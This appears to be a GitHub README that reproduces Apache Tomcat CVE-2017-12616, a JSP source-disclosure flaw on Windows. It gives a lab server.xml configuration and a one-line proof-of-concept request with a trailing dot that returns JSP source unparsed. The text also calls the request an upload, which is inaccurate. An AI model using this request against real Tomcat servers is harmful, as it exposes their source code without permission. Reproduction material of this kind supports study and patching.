


# Tomcat Information Disclose Vulnability(CVE-2017-12616)

## Introduction

The key reasion of this vulnerability was same as `CVE-2017-12615`. When running Apache Tomcat 7.0.0 to 7.0.80 on Windows and using a `VirtualDirContext` in `server.xml` it was possible to bypass security constraints and/or view the source code of JSPs for resources served by the `VirtualDirContext` using a specially crafted request.

Impact version:

```
Tomcat [7.0.0 7.0.80]
```

## Usage

Since this vulnearability only work on `Windows`, I have no build a docker contaner too.
You can review it as follow.

Download a vulnerable version of [tomcat](https://archive.apache.org/dist/tomcat/tomcat-7/), modified the `server.xml` in `conf/` path as below.

```xml
<!-- Delete the exist Host with name localhost, or modify it. -->
<Host name="localhost" appBase="webapps" unpackWARs="true" autoDeploy="true">
    <Context path="/poc" docBase="{your location to tomcat home}\webapps\examples" debug="1" reloadable="true">
        <Resources className="org.apache.naming.resources.VirtualDirContext" extraResourcePaths="/={a directory that the source file (jspx?) of this path may be reading remotely.}" />
    </Context>
</Host>
```

This configure set a virtual path `/poc`, and the default search path for page access. If there is no found in `docBase`, search the `extraResourcePaths` and return it if exists.

Save it. And run

```bash
./catalina.sh start
```

After that you can use the poc to uploading file.

```http
GET /poc/a.jsp. HTTP/1.1
```

Normal access, `a.jsp` be parsed and responsed.



And `.` at end of `a.jsp`, request again, the source code responsed directly. That's mean this file not be parsed by `org.apache.jasper.servlet.JspServlet`

